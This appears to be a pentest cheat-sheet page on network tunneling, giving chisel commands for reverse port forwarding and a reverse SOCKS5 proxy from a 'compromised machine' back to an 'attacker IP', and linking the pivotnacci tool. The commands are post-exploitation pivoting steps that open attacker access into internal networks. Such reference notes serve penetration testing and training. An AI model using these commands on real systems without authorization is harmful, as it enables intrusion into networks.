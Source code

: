 ```yaml
---
layout: post
title: "Tunneling"
os: ["Windows", "Linux"]
tags: ["Port Forwarding", "SOCKS", "Tunneling"]
code:
  - title: Port Forwarding
    description: Start chisel on atack machine
    sample: ./chisel server --reverse -p "listen port"
  - title: 
    description: Start communication between Attach machine and Compromise Machine
    sample: ./chisel client "attacker IP":"attacker Port" R:"local port":"IP to expose":"Port to expose"
  - title: SOCKS
    description: Start chisel on atack machine
    sample: ./chisel server --socks5 --reverse [-p "PORT"]
  - title:
    description: Start communication between Attach machine and Compromise Machine
    sample: ./chisel client "attacker IP":"port" R:socks
    args: In the local machine, connect via SOCKS5 using the port provided by Chisel.
  - title: pivotnacci
    url: https://github.com/blackarrowsec/pivotnacci
---
```




<div class="window">
  <div class="title-bar">
      <div>
              <span class="window_dot language-bash"></span>
              <span class="window_dot bg-warning"></span>
              <span class="window_dot bg-success"></span>
      </div>
  </div>
  
  <div class="content">

  </div>
</div> 

> 

### pivotnacci

Source [here]()
